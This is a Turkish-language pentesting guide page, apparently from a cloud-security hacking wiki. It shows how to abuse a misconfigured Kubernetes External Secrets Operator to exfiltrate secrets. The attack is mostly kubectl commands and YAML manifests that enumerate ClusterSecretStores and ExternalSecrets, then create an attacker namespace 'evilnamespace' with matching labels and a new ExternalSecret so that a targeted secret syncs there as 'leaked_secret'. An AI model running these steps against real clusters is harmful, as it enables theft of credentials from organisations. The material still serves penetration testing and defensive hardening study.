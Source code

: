 # Harici Secret Operatörü

**Bu sayfanın orijinal yazarı** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Bu sayfa, yanlış yapılandırılmış bir ESO'dan veya uygulamanın sırlarını senkronize etmek için ESO kullanan bir uygulamadan sırları nasıl çalabileceğinize dair bazı ipuçları sunar.

## Feragatname

Aşağıda gösterilen teknik, belirli koşullar sağlandığında yalnızca çalışabilir. Örneğin, bir sırrın senkronize edilmesine izin vermek için gereken gereksinimlere bağlıdır. Bu gereksinimleri kendiniz belirlemelisiniz.

## Önkoşullar

1. Yönetici ayrıcalıklarına sahip bir kubernetes / openshift kümesinde bir dayanak noktası
2. En azından küme düzeyinde ExternalSecret'ı okuma erişimine sahip olun
3. ESO'nun sırlarını senkronize etmesine izin veren gerekli etiketlerin / açıklamaların veya grup üyeliğinin olup olmadığını belirleyin. Şanslıysanız, tanımlanan herhangi bir sırrı serbestçe çalabilirsiniz.

### Varolan ClusterSecretStore hakkında bilgi toplama

Bu kaynağı okuma yetkisine sahip olan kullanıcılara sahip olduğunuzu varsayarak; önce mevcut _**ClusterSecretStore**_ listesini alarak başlayın.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret numaralandırma

Varsayalım ki _**mystore**_ adında bir ClusterSecretStore buldunuz. Devam ederek ilişkili externalsecret'leri numaralandırın.
```sh
kubectl get externalsecret -A | grep mystore
```
_Bu kaynak ad alanı kapsamlı olduğundan, hangi ad alanını arayacağınızı zaten biliyorsanız, tüm ad alanlarını aramak için -A seçeneğini ekleyin._

Tanımlanan externalsecret listesini almalısınız. Varsayalım ki _**mysecret**_ adında bir externalsecret nesnesi buldunuz ve _**mynamespace**_ ad alanı tarafından tanımlanıp kullanılıyor. Tuttuğu gizli bilginin ne tür olduğu hakkında biraz daha bilgi toplayın.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Parçaları birleştirme

Buradan, bir veya birden fazla gizli adının adını alabilirsiniz (Secret kaynağında tanımlandığı gibi). Benzer bir çıktı alacaksınız:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Şimdiye kadar şunlara sahibiz:

* Bir ClusterSecretStore adı
* Bir ExternalSecret adı
* Gizli bilginin adı

Artık ihtiyacımız olan her şeye sahip olduğumuza göre, bir ExternalSecret oluşturabilirsiniz (ve sonunda yeni bir gizli bilginin senkronize edilmesi için gereken ön koşullara uygun bir Namespace oluşturabilirsiniz):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Birkaç dakika sonra, senkronizasyon koşulları karşılandıysa, ad alanınızın içinde sızdırılan sırrı görebilmelisiniz.
```sh
kubectl get secret leaked_secret -o yaml
```
## Referanslar

{% embed url="https://external-secrets.io/latest/" %}

{% embed url="https://github.com/external-secrets/external-secrets" %}
